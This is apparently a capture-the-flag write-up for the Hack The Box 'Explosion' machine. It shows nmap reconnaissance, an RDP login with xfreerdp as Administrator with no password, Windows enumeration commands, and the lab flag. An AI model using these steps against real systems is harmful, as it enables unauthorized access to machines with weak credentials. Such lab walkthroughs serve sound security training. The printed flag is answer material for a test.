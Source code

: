# Explosion
Use ***ping*** to check if the host is up.
```console
kali@kali:~$ ping 10.129.101.245 -c 1
PING 10.129.101.245 (10.129.101.245) 56(84) bytes of data.
64 bytes from 10.129.101.245: icmp_seq=1 ttl=127 time=13.3 ms

--- 10.129.101.245 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 13.279/13.279/13.279/0.000 ms
```

Run an ***nmap*** scan on the top 1000 ports.
```console
kali@kali:~$ nmap -A 10.129.101.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-30 03:46 EST
Nmap scan report for 10.129.101.245
Host is up (0.014s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-30T08:46:31+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-11-29T08:38:34
|_Not valid after:  2023-05-31T08:38:34
|_ssl-date: 2022-11-30T08:46:39+00:00; +2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Run a concurrent nmap scan on all ports.
```console
kali@kali:~$ nmap -A 10.129.101.245 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-30 03:46 EST
Nmap scan report for 10.129.101.245
Host is up (0.028s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-11-29T08:38:34
|_Not valid after:  2023-05-31T08:38:34
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-30T08:48:28+00:00
|_ssl-date: 2022-11-30T08:48:36+00:00; +3s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2s, deviation: 0s, median: 1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-30T08:48:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.28 seconds
```

Connect to the "Explosion" domain on the host via ***RDP*** as "Administrator" without a password using ***xfreerdp.***
```console
kali@kali:~$ xfreerdp /u:"Administrator" /d:"Explosion" /v:10.129.101.245:3389 
[05:11:28:241] [24848:24849] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[05:11:28:242] [24848:24849] [WARN][com.freerdp.crypto] - CN = Explosion
Password: 
[05:11:31:654] [24848:24849] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[05:11:31:654] [24848:24849] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[05:11:31:701] [24848:24849] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[05:11:31:702] [24848:24849] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
...
```

It works. We found the flag. Let's keep going and probe around a bit.
![image](https://user-images.githubusercontent.com/114029528/204775880-f1405604-756c-4745-a1d3-bfa7b8e6a2de.png)

Open a command prompt using the FreeRDP interface.
![image](https://user-images.githubusercontent.com/114029528/204775974-88768dd0-632d-406a-a8c3-277ca623c3a3.png)


Display the group and user.
```bat
C:\Users\Administrator>whoami
explosion\administrator
```
Collect system information to learn more about our environment.
```bat
C:\Users\Administrator>systeminfo
Host Name:                 EXPLOSION
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Domain:                    HACKTHEBOX
Logon Server:              \\EXPLOSION
DHCP Enabled:    Yes
DHCP Server:     10.129.0.1
IP address(es)
[01]: 10.129.101.245
```

Navigate to the desktop directory.
```bat
C:\Users\Administrator>cd Desktop
```


Display the contents of the desktop directory.
```bat
C:\Users\Administrator\Desktop>dir
04/20/2021  08:27 PM    <DIR>          .
04/20/2021  08:27 PM    <DIR>          ..
04/23/2021  01:51 AM                34 flag.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,337,020,928 bytes free
```


Display the flag contents.
```bat
C:\Users\Administrator\Desktop>type flag.txt
951fa96d7830c451b536be5a6be008a0
```
